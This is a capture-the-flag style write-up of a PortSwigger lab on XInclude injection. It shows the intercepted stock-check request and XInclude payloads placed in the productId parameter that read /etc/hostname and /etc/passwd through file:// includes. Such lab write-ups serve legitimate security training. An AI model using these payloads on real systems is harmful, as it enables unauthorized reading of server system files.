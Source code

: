 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e00f020e-d056-42eb-9590-14b63c467f86)

## Overview :

 Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, y**ou cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element**. However, you might be able to use XInclude.

**XInclude is a part of the XML specification that allows an XML document to be built from sub-documents**. You can place an XInclude attack within any data value in an XML document, so the _attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document_.

To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:

```xml
<example xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```
> This piece of XML code does two things. First, it references the http://www.w3.org/2001/XInclude namespace so that we can use the `xi:include element. Next, it uses that element to parse and
> include the `/etc/hostname` file in the XML document


## Solution :

Clicking on checkstock feature sends the following POST request.

```xml
POST /product/stock HTTP/2
Host: 0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Cookie: session=pH4FMMey7Y6ZHgKDWygdTWdJ3tsg1jGg
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://0ad200c1031cd2e186b555c2000900e6.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=1&storeId=1
```

Here we can't see any XML data being sent to the server but the lab description says that _the checkstock feature embeds the user input inside a server-side XML document that is subsequently parsed._

Since we don't control the entire XML document we can't define a DTD. In these kind of situations, we can use the  **XInclude** tag.

> Reference - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xinclude-attacks

**Payload -**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
So we enter this payload in the `productID` parameter to retreive the `/etc/passwd` file.

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

We have now retreived the passwd file.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/70de11c4-d54e-44bc-862c-28e1d32d2da8)


The lab is solved .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/20224687-bca9-4087-b24b-6ca41c85bf84)



